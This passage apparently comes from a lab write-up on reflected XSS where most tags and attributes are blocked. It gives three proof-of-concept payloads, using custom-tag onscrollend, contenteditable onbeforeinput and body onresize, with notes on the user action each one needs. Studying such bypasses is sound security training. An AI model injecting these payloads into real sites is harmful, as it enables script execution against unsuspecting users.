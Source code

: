 ```
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><h2>a</h2><h3 id=x>test</h3></h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/14.png)


Regarding the “onbeforeinput” payload, it is necessary to click the text and update it for the alert to pop:

```
<xss contenteditable onbeforeinput=alert(1)>test</xss>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/15.png)



The third one is valid but it needs the user to change the size of the tab:

```
<body onresize="print()">
```
